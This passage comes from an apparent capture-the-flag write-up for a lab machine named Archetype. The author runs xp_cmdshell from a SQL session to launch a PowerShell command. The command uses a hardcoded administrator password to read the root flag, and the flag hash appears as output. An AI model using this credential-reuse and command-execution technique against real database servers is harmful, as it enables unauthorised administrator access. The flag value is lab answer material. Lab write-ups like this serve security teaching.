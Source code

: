 So I needed to try the latter approach: run the command to read the flag as administrator.
I did some research and found [a way to do this using PowerShell](https://superuser.com/a/1421775/506517). I ran the following command to specify the administrator credentials and print the contents of the flag:

```sql
SQL> xp_cmdshell "powershell "$username=\"administrator\";$password=\"MEGACORP_4dm1n!!\";$pass = ConvertTo-SecureString -AsPlainText $Password -Force;$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass;Invoke-Command -ComputerName \"Archetype\" -Credential $Cred -ScriptBlock {Get-Content C:\Users\Administrator\Desktop\root.txt} ""

output                                                                             
 
b91ccec3305e98240082d4474b848528
```
